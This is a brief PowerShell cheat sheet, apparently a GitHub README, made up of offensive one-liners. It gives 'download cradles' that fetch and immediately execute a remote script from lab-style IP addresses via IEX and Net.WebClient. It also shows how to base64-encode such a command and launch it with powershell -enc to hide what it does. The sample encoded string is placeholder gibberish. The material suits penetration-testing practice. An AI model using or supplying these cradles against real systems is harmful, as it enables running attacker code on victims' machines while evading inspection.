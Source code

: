 # Powershell CheatSheet
## Powershell Download Cradles
```
IEX(New-Object Net.WebClient).downloadString('http://192.168.49.88/run.ps1')
```

## Base64 Encode
```
$cmd = ""
$cmd = "IEX(New-Object Net.WebClient).downloadString('http://192.168.49.182/run.ps1')"
$bin = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$enc = [Convert]::ToBase64String($bin)
$enc

powershell -enc "fewfweioajewjef=="
```
